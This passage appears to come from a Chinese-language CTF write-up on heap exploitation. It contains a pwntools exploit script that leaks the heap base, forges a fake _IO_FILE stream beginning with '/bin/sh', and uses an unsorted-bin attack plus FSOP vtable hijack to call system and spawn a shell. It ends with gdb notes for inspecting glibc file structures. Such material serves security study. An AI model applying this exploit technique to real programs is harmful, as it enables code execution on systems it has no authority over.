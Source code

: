 ```python
see()
io.recvuntil('Name of house : ')
io.recvuntil('x'*0x10)
heap_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x130
log.info('heap_base:'+hex(heap_base))
 
# unsortedbin attack
# Fsop
vtable_addr = heap_base + 0x728-0xd0
# Before the unsorted chunk is removed from the unsorted bin, we can overwrite the bk pointer with any address-0x10.
payload = "D"*0x410
payload += p32(6+0x1f)+p32(6)+p64(0)
 
stream = "/bin/sh\x00"+p64(0x61)
# Stream
stream += p64(0xddaa)+p64(IO_list_all-0x10)
stream = stream.ljust(0xa0,"\x00")
## fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
stream += p64(heap_base+0x700-0xd0)
stream = stream.ljust(0xc0,"\x00") # mode > 0 
stream += p64(1)
 
payload += stream
payload += p64(0)
payload += p64(0)
payload += p64(vtable_addr)
payload += p64(1)
payload += p64(2)
payload += p64(3) 
payload += p64(0)*3 # vtable
payload += p64(system_addr) # 
upgrade(0x800,payload,123,3)
#gdb.attach(io)
 
io.recvuntil('Your choice : ')
io.sendline(str(1))
gdb.attach(io)
io.interactive()
```
一些说明：
vtable_addr = heap_base + 0x728-0xd0 ：这个地址我们可以根据 system 被写入的地址偏移计算得到，或者动态调一下也能看到：
```python
gef➤  x/16gx 0x000055abb0545000+0x728-0xd0
0x55abb0545658:	0x0000000000000000	0x0000000000000000
0x55abb0545668:	0x0000000000000000	0x00007f3955a42390
```

一些打印信息有用的命令：
```python
p *_IO_list_all
p _IO_list_all
p *(struct _IO_jump_t*)address 
p *(struct _IO_FILE_plus*)address 
p _IO_2_1_stdin_
p &((struct _IO_FILE*)0)->_chain # 打印偏移
```
